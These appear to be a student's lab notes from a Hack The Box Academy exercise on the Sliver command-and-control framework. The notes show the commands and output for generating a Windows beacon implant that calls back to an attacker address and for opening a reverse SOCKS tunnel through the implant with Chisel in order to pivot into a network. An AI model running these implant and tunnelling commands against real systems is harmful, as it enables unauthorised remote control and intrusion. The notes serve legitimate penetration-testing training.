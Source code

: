 ```shell-session
  -h, --help                    display help
  -d, --no-debug                filter builds by debug flag
  -b, --only-beacons            filter beacons
  -s, --only-sessions           filter interactive sessions
  -o, --os            string    filter builds by operating system
  -t, --timeout       int       command timeout in seconds (default: 60)

Sub Commands:
=============
  rm  Remove implant build

[server] sliver > implants rm http-beacon-9001

? Remove 'http-beacon-9001' build? Yes

[server] sliver > generate beacon --http 10.10.16.14:9001 --skip-symbols --os windows --arch amd64 -N http-beacon-9001 --save /home/roger/Documents/HTB/Academy/Sliver/Pivoting

[*] Generating new windows/amd64 beacon implant binary (1m0s)
[!] Symbol obfuscation is disabled
[*] Build completed in 1s
[*] Implant saved to /home/roger/Documents/HTB/Academy/Sliver/Pivoting/http-beacon-9001.exe

```

### Pivoting using Chisel

- make sure proxychains.conf is configured for socks5 port 9050
- start chisel server on attack box outside of sliver
```bash
./chisel_1.8.1_linux_arm64 server --reverse -p 1337 -v --socks5
```
- send chisel command to beacon
```shell-session
chisel client 10.10.16.14:1337 R:socks
```
- wait for the beacon to execute the connection
```bash
 ./chisel_1.8.1_linux_arm64 server --reverse -p 1337 -v --socks5
2024/06/19 16:06:41 server: Reverse tunnelling enabled
2024/06/19 16:06:41 server: Fingerprint agCO4/5IHu/zX9sZcA81hln7RTIHGtFsTZIugte3jh0=
2024/06/19 16:06:41 server: Listening on http://0.0.0.0:1337
2024/06/19 16:08:09 server: session#1: Handshaking with 10.129.205.234:49898...
2024/06/19 16:08:10 server: session#1: Verifying configuration
2024/06/19 16:08:10 server: session#1: Client version (v1.8.1) differs from server version (1.8.1)
2024/06/19 16:08:10 server: session#1: tun: Created (SOCKS enabled)
2024/06/19 16:08:10 server: session#1: tun: SSH connected
2024/06/19 16:08:10 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
2024/06/19 16:08:10 server: session#1: tun: Bound proxies

```
- need to start socks5 on sliver-server
```shell-session
socks5 start -P 9050
```
